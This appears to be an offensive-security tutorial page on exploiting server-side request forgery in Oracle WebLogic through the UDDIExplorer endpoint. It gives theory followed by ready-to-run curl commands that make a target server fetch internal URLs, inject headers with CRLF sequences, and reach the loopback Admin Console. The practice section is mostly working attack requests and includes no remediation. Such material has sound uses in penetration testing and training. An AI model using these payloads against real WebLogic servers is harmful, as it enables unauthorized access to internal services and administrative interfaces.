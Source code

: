 ```yaml
---
title: Exploiting SSRF Vulnerabilities in WebLogic
description: Explore WebLogic SSRF exploitation using UDDIExplorer and CRLF injection
  for admin console access.
keywords:
- WebLogic
- SSRF exploitation
- UDDIExplorer
- CRLF injection
- Admin Console Access
- HTTP endpoints
- server vulnerabilities
---
```


# WebLogic

## Context

This article focuses on exploiting Server Side Request Forgery (SSRF) vulnerabilities in Oracle WebLogic through HTTP-based service interactions. We will explore specific techniques using UDDIExplorer, CRLF injection, and unauthorized console access. Readers should be familiar with HTTP protocol, server request handling, web application architecture, and general concepts of SSRF.

## Theory

### WebLogic Server SSRF Attack Surface

Oracle WebLogic is a widely used Java EE application server that provides various HTTP endpoints, including administrative interfaces. These endpoints can be leveraged in SSRF attacks due to their processing of user-supplied URLs. Specifically, WebLogic components like UDDIExplorer can be exploited if they do not adequately validate input, allowing attackers to trigger server-side HTTP requests to arbitrary destinations.

### UDDIExplorer SSRF Mechanism

UDDIExplorer is a WebLogic component designed for interacting with UDDI registries, accessible at `/uddiexplorer/SearchPublicRegistries.jsp`. An attacker can exploit this component by supplying a crafted URL. This URL causes WebLogic to initiate an HTTP request to a server controlled by the attacker or an internal service, revealing sensitive information or leading to further exploitation.

### CRLF Injection in WebLogic SSRF

CRLF injection involves inserting carriage return (CR) and line feed (LF) characters into SSRF payloads, manipulating HTTP headers in the process. An attacker can craft SSRF payloads containing these sequences, potentially bypassing filters or altering HTTP requests' behavior, thereby enhancing the impact of an SSRF attack.

### WebLogic Console Access via SSRF

The WebLogic Admin Console provides an HTTP interface for server management, usually restricted to internal access. SSRF vulnerabilities can be exploited to interact with or access the Admin Console from an external attacker’s perspective, effectively bypassing usual access controls and potentially leading to full server compromise.

## Practice

### UDDIExplorer SSRF to Internal HTTP Service

- Utilize `curl` to send a POST request to UDDIExplorer:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=<INTERNAL_URL>'
    ```

    This command initiates a server-side request from WebLogic to an internal HTTP service specified by `<INTERNAL_URL>`, facilitating enumeration of these services.

### CRLF Injection in SSRF Payloads

1. Craft a payload with CRLF sequences to manipulate HTTP headers:

    ```http
    http://internal-service/evil%0d%0aInjected-Header: injected
    ```

2. Execute the SSRF attack with this payload using `curl`:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=http://internal-service/evil%0d%0aInjected-Header: injected'
    ```

    This action allows an attacker to bypass input validation and manipulate headers in outbound requests from WebLogic.

### Accessing WebLogic Admin Console via SSRF

1. Target the Admin Console using a loopback address:

    ```http
    http://127.0.0.1:7001/console
    ```

2. Trigger the SSRF with `curl`:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=http://127.0.0.1:7001/console'
    ```

    This can be used to gain unauthorized access to WebLogic's Admin Console, leveraging SSRF to exploit potential application misconfigurations.

## Tools

- **curl**: A command-line tool used for sending HTTP requests, essential for crafting and testing SSRF payloads.